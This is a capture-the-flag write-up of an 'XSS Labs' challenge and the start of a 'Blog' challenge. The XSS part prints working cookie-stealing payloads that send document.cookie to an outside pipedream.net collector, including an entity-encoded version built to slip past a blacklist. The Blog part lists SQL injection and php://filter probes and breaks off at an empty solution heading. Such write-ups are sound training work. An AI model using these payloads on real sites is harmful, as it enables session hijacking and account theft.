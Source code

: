 # XSS LAbs 
The blacklist stupid chall 

Desc-
>We got an access to a training resource from WebTopia, where they practise XSS filter bypassing. Enjoy it!
Note: If your payload does not seem to work at first, please use RequestBin to check before contacting the support.

### Rekon 
- Have to bypass four steps to get the flag , Uses Websitehook or RequestBin to catch the request made , our goal is to steal the cookie

### solution
- XSS 1/4 has no filter just use 

```
<img src=x onerror="location='//eo25c6u4oi6ob9b.m.pipedream.net?c='+document.cookie"> 

```
visit the next site at `/0d566d04bbc014c2d1d0902ad50a4122`

- XSS 2/4 
```
def filter_2(payload):
    regex = ".*(script|(</.*>)).*"
    if re.match(regex, payload):
return "Nope"
    return payload
```

The word script and closing tags are blacklisted so used 

```
<img src=x onerror="location='//eo25c6u4oi6ob9b.m.pipedream.net?c='+document.cookie">

```
Got and visit `/5d1aaeadf1b52b4f2ab7042f3319a267`

- XSS 3/4 

```
def filter_3(payload):
    regex = ".*(://|script|(</.*>)|(on\w+\s*=)).*"
    if re.match(regex, payload):
return "Nope"
    return payload
```

Additionally the https url :// and inline event handlers are also blocked. 

```
<img src=x ONERROR=&#101;&#118;&#97;&#108;&#40;&#34;&#119;&#105;&#110;&#100;&#111;&#119;&#46;&#108;&#111;&#99;&#97;&#116;&#105;&#111;&#110;&#61;&#39;&#104;&#116;&#116;&#112;&#115;&#58;&#47;&#47;&#101;&#111;&#50;&#53;&#99;&#54;&#117;&#52;&#111;&#105;&#54;&#111;&#98;&#57;&#98;&#46;&#109;&#46;&#112;&#105;&#112;&#101;&#100;&#114;&#101;&#97;&#109;&#46;&#110;&#101;&#116;&#63;&#99;&#61;&#39;&#43;&#100;&#111;&#99;&#117;&#109;&#101;&#110;&#116;&#46;&#99;&#111;&#111;&#107;&#105;&#101;&#34;&#41;>

```
running this to get 

`/b355082fc794c4d1d2b6c02e04163090`

which is just decimal encoding for eval("window.location='https://eo25c6u4oi6ob9b.m.pipedream.net?c=' + document.cookie")
 
- XSS 4/4 use the above one for this part as well 

`flag=N0PS{n0w_Y0u_4r3_x55_Pr0}`

Lesson Learnt - Char encoding for any shitty blacklist bypass . 


# Blog 
> It seems that WebTopia deployed a blog for all its inhabitants. Can you investigate on it ?

Initial Rekon : 
- `/blog.php?blog=` base endpoint
-JSON based response like `{"id":, "title":"...", "content":"...", "name":"..."}`
- `1 to 3` givesnormal behaviour for 3 to 100 , the response is null, same for edge cases .
- anything like `/blog.php?blog=abcd` returned `{"error":"Invalid ID"}` 
- basic `/blog.php?blog=-1 UNION SELECT 1,2,3--` gave 400 bad request 
- same for php filters like `/blog.php?blog=php://filter/convert.base64-encode/resource=index.php` which gave invalid ID 
- Ran Intruder against `/blog.php?blog=$x$` with some payloads getting 200 on all of them but invalid Id 

- There is mention of  contacting Sylvester , and if i want my own account but no endpoint like register/account/login exist. Sylevester blog doesnt reveal anything

They say no to fuzzing

### Solution 
